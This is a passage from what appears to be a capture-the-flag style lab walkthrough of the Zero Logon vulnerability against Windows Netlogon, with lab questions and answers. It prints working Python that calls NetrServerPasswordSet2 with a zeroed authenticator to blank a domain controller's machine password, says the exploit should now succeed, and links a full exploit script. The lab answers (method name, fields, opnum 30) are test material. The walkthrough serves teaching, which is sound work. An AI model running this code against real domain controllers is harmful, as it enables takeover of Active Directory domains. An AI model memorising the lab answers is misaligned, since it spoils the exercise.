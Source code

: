 **The Additional Code we're slotting in:**

```py
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] =  b'\x00' * 516
    rpc_con.request(newPassRequest)
```

At this point, your code should be good to go, and you should be able to successfully exploit Zero Logon. If you are still having issues, you can use the following code found here:

[https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py](https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py)

1. What method will allow us to change Passwords over NRPC?

[3.5.4.4.5 NetrServerPasswordSet2 (Opnum 30)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81)

`NetrServerPasswordSet2`

2. What are the required fields for the method per the Microsoft Documentation?

```py
NTSTATUS NetrServerPasswordSet2(
   [in, unique, string] LOGONSRV_HANDLE PrimaryName,
   [in, string] wchar_t* AccountName,
   [in] NETLOGON_SECURE_CHANNEL_TYPE SecureChannelType,
   [in, string] wchar_t* ComputerName,
   [in] PNETLOGON_AUTHENTICATOR Authenticator,
   [out] PNETLOGON_AUTHENTICATOR ReturnAuthenticator,
   [in] PNL_TRUST_PASSWORD ClearNewPassword
 );
```

`PrimaryName,AccountName,SecureChannelType,ComputerName,Authenticator,ReturnAuthenticator,ClearNewPassword`

3. What Opnumber is the Method?

`30`

4. Modify the PoC

`No answer needed`

## Task 4 Lab It Up!

**Lab It Up**
